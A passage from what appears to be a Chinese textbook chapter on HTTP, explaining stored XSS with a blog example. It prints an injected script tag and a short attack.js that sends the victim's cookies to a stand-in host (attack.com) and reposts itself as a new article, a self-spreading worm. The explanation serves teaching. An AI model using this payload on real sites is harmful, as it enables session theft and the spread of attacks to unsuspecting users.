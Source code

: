 发恶意代码，从而自动发送恶意的 HTTP 请求至服务器，造成自动攻击。

通过一个博客系统来描述 XSS 攻击：

◎ 攻击者发现一个博客系统存在漏洞，发表文章的时候，服务器没有转义或者过滤

数据。

◎ 攻击者用账号登录博客系统，打开文章编辑器，输入正常的内容，但是在文章末

尾 加 入 一 段 恶 意 代 码 （ <script type='text/javascript' src='http://www.attack.com/

attack.js'></script>）。







第 1 章 HTTP 介绍

◎ 由于服务器没有任何的校验机制，所以正常生成了一篇文章，比如 http://www.

example.com/article.html。

◎ 攻击者将这篇文章的地址发送到各大论坛，或者将文章地址用邮件发送给其他人。

◎ 不明真相的人一旦打开这篇文章，浏览器就会下载并置执行 attack.js 文件，由于

该文件包含了恶意代码，就可以进行攻击。

attack.js 攻击代码如下：

<script type="text/javascript">

$(function(){

var cookie = encodeURIComponent(document.cookie)



$('<img src="http://www.attack.com/attack.php?cookie='+ cookie +'">').

appendTo($(document.body))



var content = "<scr"+"ipt type='text/javascript' src='http://www.attack.

com/attack.js'></scr"+"ipt>"

$.post("http://www.example.com/sendArticle.php",{content:content}, function(result){});



})

</script>

这段代码中会产生两个攻击：

◎ 将用户 www.example.com 主机下的所有 Cookie 信息发送给攻击者。

◎ 自动以正常用户的身份生成一篇文章，而这篇文章包含同样的攻击代码。

3）目前的互联网
